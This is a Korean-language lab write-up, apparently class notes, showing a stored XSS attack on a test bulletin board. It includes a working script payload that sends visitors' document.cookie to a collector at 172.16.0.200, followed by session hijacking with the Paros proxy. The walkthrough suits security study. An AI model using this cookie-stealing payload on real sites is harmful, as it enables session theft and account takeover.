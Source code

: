 <br>

게시판에 글을 작성 1줄로 작성 (test 입니다.)

![2022-10-26-68링크](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-68링크.jpg)

```
daum 이미지 주소를 복사해서 아래의 처럼 게시글을 작성해 주시면 됩니다.
<img name="i" width="100" height="100"></img><script>i.src="https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png"</script>
```

![2022-10-26-69이미지](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-69이미지.jpg)

<br>

xp -> 게시판에 공격할 글을 작성 

![2022-10-26-70게시글](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-70게시글.jpg)

```
<img name="i" width="0" height="0"></img><script>i.src="http://172.16.0.200:8080/getcookie.php?cookie="+document.cookie</script>
```

<br>

2003 -> test01로 접속하여 게시글 확인

![2022-10-26-71확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-71확인.jpg)

<br>

kali -> 확인

```
vim /tmp/cookie.dat
```

![2022-10-26-72확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-72확인.jpg)

<br>

XP 에서 paros 를 이용하여 PHPSSESID 를 변조하여 다른 사용자로 변신!!!

![2022-10-26-73트랩](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-73트랩.jpg)

![2022-10-26-53pros](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-53pros-1666872345043-40.jpg)

test02의 닉네임은 kh였지만 phpssesionID를 얻어서 그것을 이용해 페이지를 이동하여 test01의 닉네임이 나왔습니다.

<br>

진행 방식

![2022-10-26-74구성도](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-74구성도.jpg)

이런 식으로 진행되는 과정 이였습니다.
